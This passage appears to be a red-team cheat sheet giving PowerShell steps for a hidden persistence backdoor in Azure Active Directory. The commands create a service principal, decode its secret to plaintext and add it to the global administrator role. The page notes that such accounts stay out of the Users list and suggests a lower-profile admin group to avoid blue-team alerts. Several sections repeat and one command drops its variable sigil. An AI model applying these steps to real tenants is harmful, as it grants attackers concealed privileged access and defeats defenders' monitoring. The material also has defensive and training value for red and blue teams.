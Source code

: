 #### Get service principal secret
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### set service principal in variable and role
```
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
```

## Service principal global admin
- This can be a bit less noticeable as service principal accounts do not show up in the Azure Active Directory “Users” list
-  Blue team should be alerting on new additions to global admins
- Instead of adding to “Company Administrator” just add it to “User Account Administrator” group.

#### Create a new service principal
- Note the “ApplicationId”. This is the service principal’s “username” for auth
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```

#### Get service principal's secret
- this is the password
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### Get the service principal using the application id
```
sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
```

#### Set the role
```
$role = Get-MsolRole -RoleName "Company Administrator"
```

#### Add the service principal as a role member
```
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

#### Check the role members
```
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```
